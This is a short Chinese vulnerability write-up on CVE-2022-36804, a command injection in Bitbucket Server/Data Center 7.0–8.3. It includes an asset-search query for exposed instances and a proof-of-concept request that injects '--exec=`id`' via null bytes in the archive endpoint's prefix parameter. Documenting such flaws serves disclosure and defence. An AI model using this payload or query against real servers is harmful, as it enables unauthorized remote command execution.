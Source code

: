 # Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

# Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

```
Atlassian Bitbucket 7.0～8.3
```

## 网络测绘

```
app="ATLASSIAN-Bitbucket"
```

## 漏洞复现

登录页面

![image-20221008102322162](/images/202210081023211.png)

验证POC

```
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

![image-20221008102343377](/images/202210081023437.png)

